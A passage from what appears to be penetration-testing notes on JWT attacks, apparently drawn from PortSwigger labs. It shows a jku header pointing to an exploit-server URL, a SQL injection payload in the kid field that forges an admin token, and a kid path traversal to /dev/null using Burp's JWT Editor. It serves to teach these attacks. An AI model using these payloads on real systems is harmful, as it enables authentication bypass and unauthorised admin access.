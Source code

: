         "alg": "RS256",
        "jku": "<https://exploit-0ab0006a04eb956a81555b35017e0062.exploit-server.net/exploit>"
    }

    2. click Sign, then select the RSA key that you generated in the previous section, Make sure that the Don't modify header option is selected, then click ok
    3. Send the request. Observe that you have successfully accessed the admin panel.
    ```
*   **`kid` parameter**

    *   **Reveal key**

        If the claim "`kid`" is used in the header, check the web directory for that file or a variation of it. For example if `"kid":"key/12345"` then look for _`/key/12345`_ and _`/key/12345.pem`_ on the web root.

    ```python
    # Sql Injection
    IF an application uses the kid parameter to retrieve the key from a database, it might be vulnerable to SQL injection. 

    If successful, an attacker can control the value returned to the kid parameter from an SQL query and use it to sign a malicious token.
    Again using the same example token, let’s say the application uses the following vulnerable SQL query to get its JWT key via the kid parameter:

    SELECT key FROM keys WHERE key='key1'

    An attacker can then inject a UNION SELECT statement into the kid parameter to control the key value:

    {  "alg": "HS256",  "typ": "JWT",  "kid": "xxxx' UNION SELECT 'aaa"}.{  "name": "John Doe",  "user_name": "john.doe",  "is_admin": true}

    If SQL injection succeeds, the application will use the following query to retrieve the signature key:

    SELECT key FROM keys WHERE key='xxxx' UNION SELECT 'aaa'

    This query returns aaa into the `kid` parameter, allowing the attacker to sign a malicious token simply with `aaa`.  To avoid these and other injection attacks, applications should always sanitize the value of the `kid` parameter before using it.
    ```

    ```python
    1. Go to the JWT Editor Keys tab in Burp's main tab bar Generate to generate a new key in JWK format
    2. Replace the generated value for the k property with a Base64-encoded null byte (AA==). Note that this is just a workaround because the JWT Editor extension won't allow you to sign tokens using an empty string.
    3. In the header of the JWT, change the value of the kid parameter to a path traversal sequence pointing to the /dev/null file:
    ../../../../../../../dev/null

    {
        "kid": "../../../../../../../../dev/null",
        "alg": "HS256"
    }
